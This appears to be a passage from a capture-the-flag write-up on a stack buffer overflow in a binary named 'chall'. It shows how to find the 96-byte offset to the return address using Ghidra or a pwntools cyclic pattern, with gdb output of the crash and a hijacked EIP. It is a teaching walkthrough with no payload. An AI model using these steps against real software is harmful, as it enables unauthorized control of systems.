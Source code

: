 1. Using Ghidra(applicable here): you can see that the decompilation says that the size of the buffer is 92 bytes, there is no other local variable. Hence the offset to the return address is 92 + 4 = 96 bytes (buffer + saved base pointer)

2. Using a cyclic pattern : you can create a pattern as the input, run it in a debugger(like gdb) and view the value which crashes the program, after which you can identify it's offset in the pattern.

For the 2nd case , you can use the cyclic utility from pwntools. Run `cyclic 256` on your shell to create a pattern of 256 bytes:
```
➜  cyclic 256 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
```
Copy this and start this program in gdb. Run it and send this as input:

```
➜  gdb chall
GNU gdb (Ubuntu 8.1-0ubuntu3.2) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[+] Configuration from '/<REDACTED>/.gef.rc' restored
Reading symbols from chall...(no debugging symbols found)...done.
gef➤  r
Starting program: /<REDACTED>/chall 
What's this:0xffffccf8?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x100     
$ebx   : 0x61616178 ("xaaa"?)
$ecx   : 0xffffccf8  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x100     
$esp   : 0xffffcd60  →  "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
$ebp   : 0x61616179 ("yaaa"?)
$esi   : 0xf7fa2000  →  0x001d7d6c
$edi   : 0x0       
$eip   : 0x6261617a ("zaab"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcd60│+0x0000: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"	 ← $esp
0xffffcd64│+0x0004: "caabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboa[...]"
```